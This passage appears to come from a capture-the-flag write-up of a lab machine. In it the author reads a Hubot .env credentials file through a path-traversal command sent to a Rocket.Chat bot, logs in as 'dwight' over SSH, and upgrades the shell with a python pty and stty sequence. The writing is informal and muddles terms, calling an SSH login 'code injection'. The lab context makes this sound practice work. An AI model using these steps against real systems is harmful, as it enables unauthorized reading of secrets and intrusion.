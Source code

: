 so i decide to get the **user.txt** but i got a response **Acess denied !**  so i decide to list the files and started to go one by one to see what i can get and in hubot i got a **.env** and when i open it i got a password for the admin

![[botlist.png]]

![[env.png]]

#### code-env
```shell
recyclops file ../hubot/.env
```


```shell
 <!=====Contents of file ../hubot/.env=====>
<!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
<!=====End of file ../hubot/.env=====>
```

so i since i have the password and i now ho was the admin so i decided to ssh to get the injection 

#### code-ssh
```shell
sudo ssh dwight@10.10.11.143
```

successful code injection and i got the shell 

![[dwight.png]]


## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
 #### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo
 fg [Enter] two times
 ```
 